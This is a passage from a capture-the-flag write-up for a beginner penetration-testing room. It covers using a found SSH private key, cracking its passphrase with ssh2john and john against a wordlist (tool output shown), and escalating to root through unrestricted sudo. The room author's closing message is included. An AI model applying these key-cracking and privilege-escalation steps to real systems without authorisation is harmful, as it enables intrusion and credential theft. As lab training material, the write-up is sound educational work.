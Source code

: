 We can now `ssh` into the other user...or can we?

```shell
# Use -i for an ssh key file
ssh -i id_rsa [REDACTED]@$IP
# Enter passphrase for key 'id_rsa':
```

Not quite done yet, are we?

We can use `ssh2john` and `john` to crack `ssh` key files

```shell
ssh2john.py id_rsa > id_rsa.hash && john --wordlist=~/wordlists/rockyou.txt id_rsa.hash
```

```
Warning: detected hash type "SSH", but the string is also recognized as "ssh-opencl"
Use the "--format=ssh-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
[REDACTED]          (ssh_files/id_rsa)
1g 0:00:00:14 DONE 0.06738g/s 966419p/s 966419c/s 966419C/s
Session completed
```

We now have the password for the key file and can `ssh` into the machine and grab `pass.bak`
And the room is now complete... Mostly

---

### Final Lookaround

We have the other user's password from `pass.bak` and everything is submitted on the room, however, in easy rooms, all the ports have some sort of functionality.
I do the usual, and `sudo -l` to check this user's permissiong

```
[sudo] password for [REDACTED]:
Matching Defaults entries for [REDACTED] on basic2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User [REDACTED] may run the following commands on basic2:
    (ALL : ALL) ALL
```

Since we have unrestricted `sudo` access, we can `sudo su` and `cd /root` to check those contents.

```
Congratulations! You've completed this challenge. There are two ways (that I'm aware of) to gain
a shell, and two ways to privesc. I encourage you to find them all!

If you're in the target audience (newcomers to pentesting), I hope you learned something. A few
takeaways from this challenge should be that every little bit of information you can find can be
valuable, but sometimes you'll need to find several different pieces of information and combine
them to make them useful. Enumeration is key! Also, sometimes it's not as easy as just finding
an obviously outdated, vulnerable service right away with a port scan (unlike the first entry
in this series). Usually you'll have to dig deeper to find things that aren't as obvious, and
therefore might've been overlooked by administrators.

Thanks for taking the time to solve this VM. If you choose to create a writeup, I hope you'll send
me a link! I can be reached at josiah@vt.edu. If you've got questions or feedback, please reach
out to me

```
